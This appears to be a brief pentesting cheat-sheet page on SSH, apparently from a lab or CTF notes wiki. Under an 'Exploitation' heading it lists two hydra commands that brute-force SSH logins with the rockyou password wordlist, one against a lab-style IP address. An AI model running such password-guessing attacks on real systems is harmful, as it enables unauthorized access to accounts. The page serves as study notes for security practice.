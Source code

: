 ```yaml
---
description: Nice replacement for telnet
---
```


# SSH (Secure Socket Shell)

### Exploitation&#x20;

#### Password cracking with hydra

```bash
hydra -t 16 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -vV <IP-ADDRESS> ssh
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt ssh://10.10.37.123:22
```
